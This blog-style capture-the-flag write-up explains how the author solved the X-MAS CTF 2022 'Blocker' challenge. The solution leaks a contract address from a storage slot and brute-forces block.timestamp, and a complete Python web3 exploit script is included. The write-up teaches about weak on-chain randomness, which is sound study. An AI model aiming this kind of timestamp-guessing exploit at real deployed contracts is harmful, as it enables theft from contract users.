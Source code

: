 ## Summary

Recently, I participated in the X-MAS 2022 CTF in my free time. There was an interesting blockchain related challenge. In this challenge, we were provided the source code of a vulnerable Solidity smart contract. The goal is to exploit the vulnerability and get the flag

Figure 1 below shows the source code of the contract

![1.png](images/1.png "1.png")

It is a straightforward contract which has two functions:

1. `_getPreviousTimestamp`: This function will return the timestamp of the block using block.timestamp
2. solve: This function will accept an integer as an input and compare it with block.timestamp

The goal is to be able to guess the block.timestamp accurately

Before we jump into the solution, it is important to mention that the value of block.timestamp is not a constant and it can be manipulated by the miner. This is why it is not suggested to use block.timestamp to generate random numbers in real world smart contracts since its value can be manipulated and guessed.

The value of block.timestamp in the Ethereum mainnet (prior to Merge) was usually within a range. It had to be greater than or equal to value of block.timestamp in parent block and it should be within a range. It can be represented mathematically as shown below.
```
block.timestamp <= now + X and is block.timestamp >= parent.timestamp
```
Here X is the range within which the block.timestamp would have to be

Refer for more details here: https://github.com/ethereum/wiki/blob/c02254611f218f43cbb07517ca8e5d00fd6d6d75/Block-Protocol-2.0.md

## Challenge

When we connect to challenge server, it deploys the vulnerable contract on a private instance of a blockchain and provides us the 4 options as shown in the image below.

![2.png](images/2.png "2.png")

Below is a brief description of these 4 options.

1. uuid: a unique identifier used to indicate our challenge instance
2. rpc endpoint: this is the private RPC URL used to connect to the private blockchain
3. private key: This is the private key of the account provided to us to interact with the blockchain. It is loaded with some balance to use for the gas fee
4. setup contract: this is the address of the deployer contract

There are two main steps to solve this challenge
- Leaking the vulnerable contract address
- Bruteforcing the block.timestamp

Now, we will discuss each step in detail.

## Leaking the vulnerable contract address

It is important to note that the setup contract address provided to us does not correspond to the vulnerable contract address. So, we still have to find the address of vulnerable contract.

My way of leaking vulnerable contract address was by reading the storage slot of the setup contract address. Since the setup contract deployed the vulnerable contract, the address of vulnerable contract would be stored in a storage slot of setup contract

```
vuln_contract_address =  w3.toChecksumAddress("0x" + w3.eth.get_storage_at(setup_contract_address, 0).hex()[-40:])
```
If you want to understand why address is stored in the storage slot, you can fetch the bytecode of setup contract, decompile it and understand it.

## Bruteforcing the block.timestamp

The next step was to interact with the vulnerable contract, do transactions and guess the block.timestamp

The first thing I noticed was that each time we do a transaction, the value of block number incremented by 1 and the value of block.timestamp incremented by a random value.

Even though block.timestamp incremented by a random value, it was still within a range. Per my analysis, it was within a range of 100 seconds

So, to solve the challenge, I ran a loop for a maximum of 100 iterations. In each iteration, I would get the block.timestamp, increment it by 2 and send it in transaction. Then I would compare the block.timestamp after transaction with the previous value (incremented by 2). If the difference is 0, then it means we guessed it

Also, in the vulnerable contract source code, we can see that the value of state variable solved would be set to true if the challenge is solved. By checking for this value, we can confirm when the challenge is solved

Figure 3 below shows my script solving it:

![3.png](images/3.png "3.png")

Once we have solved it, we just need to connect to the challenge server, submit our uuid and setup contract address to get the flag.

![4.png](images/4.png "4.png")

Flag: X-MAS{beginooor}

## Solution code
```
import web3
import time

print("Solution to Blocker challenge in X-MAS CTF 2022")
print("Sudeep Singh, Twitter @ SinghSoodeep")

rpc_url = "http://challs.htsp.ro:9001/ad8e2899-f227-4c48-83a1-17bf5d82809b"
w3 = web3.Web3(web3.Web3.HTTPProvider(rpc_url))
w3.isConnected()

setup_contract_address = "0x593EDc28F0Be694354BCe80c4b2DD991eE58E6Ca"
private_key = "0x4c93f3ae3b52d4ce27af51e8658b97e24a1f2eadb8a85cceaee0373cacca75dd"
print("Fetching account using the private key")

account = w3.eth.account.privateKeyToAccount(private_key)

print("Account address is: {}".format(account.address))

balance = w3.eth.getBalance(account.address)

abi = [{"inputs":[],"name":"current_timestamp","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"uint256","name":"_guess","type":"uint256"}],"name":"solve","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"solved","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"}]

print("Leaking the vulnerable contract address")

vuln_contract_address =  w3.toChecksumAddress("0x" + w3.eth.get_storage_at(setup_contract_address, 0).hex()[-40:])

print("vulnerable contract address at: {}".format(vuln_contract_address))

gas_price = w3.eth.gasPrice
gas_limit = 1000000

web3.eth.defaultAccount = account.address

contract = w3.eth.contract(abi=abi, address=vuln_contract_address)

print("time analysis!!")
print("Exploit the vulnerability by bruteforcing the block.timestamp")

for i in range(100):
    before_block = w3.eth.get_block_number()
    tstamp = w3.eth.getBlock(w3.eth.get_block_number())['timestamp'] + 2
    _solved = contract.functions.solved().call()
    _current_timestamp = contract.functions.current_timestamp().call()
    print("BEFORE: block_number: {}, tstamp: {}".format(before_block, tstamp))
    print("BEFORE: solved: {}".format(_solved))
    tx_hash =  contract.functions.solve(tstamp).transact({"gasPrice": gas_price, "gas": gas_limit})
    after_block = w3.eth.get_block_number()
    after_tstamp = w3.eth.getBlock(w3.eth.get_block_number())['timestamp']
    _solved = contract.functions.solved().call()
    _current_timestamp = contract.functions.current_timestamp().call()
    print("AFTER: block_number: {}, tstamp: {}".format(after_block, after_tstamp))
    print("AFTER: solved: {}".format(_solved))
    print("time diff: {}".format(after_tstamp - tstamp))
    print("*********************************")
    time.sleep(0.5)
    if _solved == True:
        print("solved!")
        break
```
